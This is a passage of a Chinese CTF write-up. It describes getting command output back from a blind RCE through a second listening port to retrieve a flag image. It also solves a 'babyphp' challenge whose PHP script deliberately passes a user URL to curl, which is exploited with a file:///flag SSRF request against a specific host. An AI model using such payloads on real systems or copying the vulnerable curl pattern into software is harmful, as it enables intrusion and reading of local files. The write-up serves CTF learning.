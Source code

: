 看源码，和一般的反弹shell不同，它实际是将咱们的vps这边作为输入，可以理解为无回显rce
但是咱们可以再监听一个端口用来接收命令执行后的结果，如下

找到了根目录下的flag.png

![](https://i.loli.net/2021/10/31/IUKqLwHOEThJn6m.png)

再把文件内容传过来就行

![](https://i.loli.net/2021/10/31/LEU58H9CvOmfTkn.png)

可以在linux上用eog命令来读，也可以用vps传回本机看

![](https://i.loli.net/2021/10/31/n4ZBAsLYWwDjF8J.png)

## babyphp

读robots.txt

```
User-agent: *
Disallow: /noobcurl.php
```

访问之，考的是ssrf，并且提示了flag在根目录

```php
<?php
function ssrf_me($url){
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        curl_close($ch);
        echo $output;
}

if(isset($_GET['url'])){
    ssrf_me($_GET['url']);
}
else{
    highlight_file(__FILE__);
        echo "<!-- 有没有一种可能，flag在根目录 -->";
}
```

用file://协议读就行

```
http://47.100.242.70:4659/noobcurl.php?url=file:///flag
```

![](https://s2.loli.net/2022/03/09/egBnf56JXqhRt9v.png)


